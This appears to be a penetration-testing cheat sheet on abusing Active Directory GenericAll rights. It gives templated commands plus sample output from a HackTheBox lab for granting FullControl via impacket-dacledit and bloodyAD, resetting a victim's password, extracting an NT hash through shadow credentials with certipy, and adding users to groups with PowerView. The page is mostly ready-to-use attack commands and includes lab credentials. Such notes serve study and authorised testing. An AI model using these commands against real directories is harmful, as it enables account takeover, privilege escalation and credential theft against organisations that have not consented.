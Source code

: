```yaml
---
title: "GenericAll"
date: 2024-7-12
tags: ["Shadow Credentials", "Powerview", "Credential Dumping", "AddMember", "Impacket", "Genericall", "Domain Controller", "Active Directory", "Windows"]
---
```


### Abuse #1: Change Target User Password

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add Full Control to Current User

{{< tab set1-1 tab1 active >}}impacket{{< /tab >}}{{< tab set1-1 tab2 >}}bloodyAD{{< /tab >}}
{{< tabcontent set1-1 tab1 >}}

```console
sudo ntpdate -s <DC> && impacket-dacledit -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl -use-ldaps
```

```console {class=sample-code}
$ impacket-dacledit -k 'rebound.htb/oorend:1GR8t@$$4u' -dc-ip 10.10.11.231 -principal oorend -target-dn 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' -inheritance -action write -rights FullControl -use-ldaps
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20240923-015912.bak
[*] DACL modified successfully!
```

{{< /tabcontent >}}
{{< tabcontent set1-1 tab2 >}}

```console
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console {class=sample-code}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' 'oorend'
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

{{< /tabcontent >}}

#### 2. Change Password

{{< tab set1-2 tab1 active >}}bloodyAD{{< /tab >}}
{{< tabcontent set1-2 tab1 >}}

```console
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> set password '<TARGET_USER>' '<NEW_PASSWORD>'
```

```console {class="sample-code"}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 set password 'winrm_svc' 'Test1234'
[+] Password changed successfully!
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
```

#### 2. Change Target User Password

```console
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force 
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> $password = ConvertTo-SecureString Test1234 -AsPlainText -Force
```

```console
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> Set-DomainUserPassword -Identity superfume -AccountPassword $password
```

{{< /tabcontent >}}

---

### Abuse #2: Get Shadow Credential

{{< tab set3 tab1 >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Add Full Control to Current User

{{< tab set3-1 tab1 active >}}impacket{{< /tab >}}{{< tab set3-1 tab2 >}}bloodyAD{{< /tab >}}
{{< tabcontent set3-1 tab1 >}}

```console
sudo ntpdate -s <DC> && impacket-dacledit -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl -use-ldaps
```

```console {class="sample-code"}
$ impacket-dacledit -k 'rebound.htb/oorend:1GR8t@$$4u' -dc-ip 10.10.11.231 -principal oorend -target-dn 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' -inheritance -action write -rights FullControl -use-ldaps
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20240923-015912.bak
[*] DACL modified successfully!
```

{{< /tabcontent >}}
{{< tabcontent set3-1 tab2 >}}

```console
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' 'oorend'
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

{{< /tabcontent >}}

#### 2. Get Shadow Credential

```console
sudo ntpdate -s <DC> && certipy-ad shadow auto -username <USER>@<DOMAIN> -password '<PASSWORD>' -k -account <TARGET_USER> -target <DC> -scheme ldap
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && certipy-ad shadow auto -username oorend@rebound.htb -password '1GR8t@$$4u' -k -account winrm_svc -target dc01.rebound.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '22fdb427-7028-72b8-bc39-8f4674c644dd'
[*] Adding Key Credential with device ID '22fdb427-7028-72b8-bc39-8f4674c644dd' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '22fdb427-7028-72b8-bc39-8f4674c644dd' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: winrm_svc@rebound.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 4469650fd892e98933b4536d2e86e512
```

#### FIX: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)

```console
# No really a fix, need to runas administrator
gpupdate /force
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\Administrator\Documents> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.

User Policy update has completed successfully.
```

{{< /tabcontent >}}

---

### Abuse #3 : Add User to Group

{{< tab set4 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set4 tab1 >}}

#### 1. Import PowerView
```console
. .\PowerView.ps1
```

#### 2. Create a Cred Object (runas) \[Optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 2. Add User to Group

```console
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

{{< /tabcontent >}}
